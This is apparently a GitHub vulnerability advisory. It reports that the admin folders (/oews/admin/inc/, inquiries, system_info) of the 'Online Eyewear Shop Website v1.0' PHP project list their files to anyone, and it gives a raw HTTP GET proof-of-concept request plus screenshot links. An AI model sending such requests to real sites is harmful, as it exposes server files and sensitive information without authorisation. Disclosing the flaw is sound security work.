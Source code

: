 ## Online Eyewear Store Website Exposed to Directory Traversal Vulnerability

## Affected version: 
Online Eyewear Shop Website - v1.0

## Software:
https://www.sourcecodester.com/php/16089/online-eyewear-shop-website-using-php-and-mysql-free-download.html

## Vulnerability File:
/oews/admin/inc/、/oews/admin/inquiries、/oews/admin/system_info

## Description:
The online eyewear store website 1.0 has directory traversal vulnerabilities in /oews/admin/inc/, /oews/admin/inquiries, and /oews/admin/system_info. Attackers can use this method to jump directories and browse arbitrary files, resulting in the leakage of sensitive server information.
Status: CRITICAL

POC
```
GET /oews/admin/inc/ HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=4bo37p217s2osfnh7ovs48s6p9
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
```

Access other files in the directory directly by accessing this route.

![image](https://github.com/user-attachments/assets/0fd307f3-50c7-4770-8546-15a99ed28c52)

![CleanShot 2025-03-13 at 19 37 36@2x](https://github.com/user-attachments/assets/e25f4e50-2798-4436-b5a5-0ed9bdf37e9d)

